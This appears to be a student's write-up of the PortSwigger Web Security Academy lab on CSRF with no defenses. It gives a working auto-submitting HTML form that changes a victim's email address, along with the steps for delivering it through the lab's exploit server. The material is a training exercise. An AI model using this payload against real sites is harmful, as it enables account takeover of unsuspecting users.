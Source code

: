 ## LAB - 1
**lab link: <https://portswigger.net/web-security/csrf/lab-no-defenses>**

 **Topic :-** 

- CSRF vulnerability with no defenses.

 **To Solve :-**

- Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

 **Procedure :-**

1.  In the vulnerable site, There's an update email feature which can be exploited.
2. The exploit server is also provided for exploit creation and delivery.
3. Create an CSRF exploit .
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="anything%40web-security-academy.net"> 
</form> 
<script> 
	document.forms[0].submit(); 
</script>
```
submit this in the body of exploit sever, store and view exploit firsthand , and then deliver exploit to victim.


``` For this to succeed, victim has to recently changed the email, for the cookies not being mismatched. ```